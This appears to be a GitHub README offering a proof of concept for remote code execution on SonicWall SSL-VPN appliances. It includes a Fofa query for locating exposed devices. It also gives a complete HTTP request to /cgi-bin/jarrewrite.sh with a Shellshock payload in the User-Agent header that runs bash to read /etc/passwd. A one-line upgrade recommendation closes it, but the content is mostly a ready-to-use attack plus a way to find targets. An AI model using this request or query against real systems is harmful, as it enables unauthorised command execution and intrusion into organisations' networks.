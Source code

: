 # SonicWall-SSL-VPN-RCE
SonicWall-SSL-VPN-RCE


## Fofa
``` bash
app="SONICWALL-SSL-VPN" && server=="SonicWALL SSL-VPN Web Server"
```

## POC
``` bash
GET /cgi-bin/jarrewrite.sh HTTP/1.1
Host: 103.x.x.x:4433
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://103.x.x.x.x:4433/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AOPortal_103.x.x.x=false; SessURL=https%3A%2F%2F103.x.x.x%3A4433%2Fcgi-bin%2Fwelcome
```
![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-1.png)

java的gui版：

![](https://blog-1259438478.cos.ap-nanjing.myqcloud.com/post-picture1/post-m-2.png)
## 修复建议

升级到Sonic SMA 8.0.0.4
